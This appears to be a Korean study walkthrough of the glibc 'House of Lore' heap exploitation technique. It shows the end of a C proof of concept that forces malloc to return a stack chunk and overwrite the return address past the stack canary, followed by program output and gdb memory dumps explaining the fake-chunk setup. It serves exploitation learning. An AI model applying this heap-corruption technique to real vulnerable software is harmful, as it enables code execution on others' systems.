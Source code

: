 ```c
  void *p3 = malloc(100);


  fprintf(stderr, "This last malloc should trick the glibc malloc to return a chunk at the position injected in bin->bk\n");
  char *p4 = malloc(100);
  fprintf(stderr, "p4 = malloc(100)\n");

  fprintf(stderr, "\nThe fwd pointer of stack_buffer_2 has changed after the last malloc to %p\n",
         stack_buffer_2[2]);

  fprintf(stderr, "\np4 is %p and should be on the stack!\n", p4); // this chunk will be allocated on stack
  intptr_t sc = (intptr_t)jackpot; // Emulating our in-memory shellcode
  memcpy((p4+40), &sc, 8); // This bypasses stack-smash detection since it jumps over the canary
}
```

```
Welcome to the House of Lore
This is a revisited version that bypass also the hardening check introduced by glibc malloc
This is tested against Ubuntu 14.04.4 - 32bit - glibc-2.23

Allocating the victim chunk
Allocated the first small chunk on the heap at 0x804c008
```

malloc으로 100만큼 할당 <- victim(0x804c000)

```
gdb-peda$ x/24wx 0x804c000
0x804c000:	0x00000000	0x00000069	0x00000000	0x00000000
```

Stack 영역에 Fake Chunk를 만들기 위한 Buffer 확인

```
stack_buffer_1 at 0xffffd58c
stack_buffer_2 at 0xffffd580
Create a fake chunk on the stack
Set the fwd pointer to the victim_chunk in order to bypass the check of small bin corruptedin second to the last malloc, which putting stack address on smallbin list
Set the bk pointer to stack_buffer_2 and set the fwd pointer of stack_buffer_2 to point to stack_buffer_1 in order to bypass the check of small bin corrupted in last malloc, which returning pointer to the fake chunk on stack
```

p5에 malloc으로 1000만큼 할당  
free 시 top chunk와 병합되지 않도록 large chunk를 만든다.

```
Allocating another large chunk in order to avoid consolidating the top chunk withthe small one during the free()
Allocated the large chunk on the heap at 0x804c070

Freeing the chunk 0x804c008, it will be inserted in the unsorted bin
```
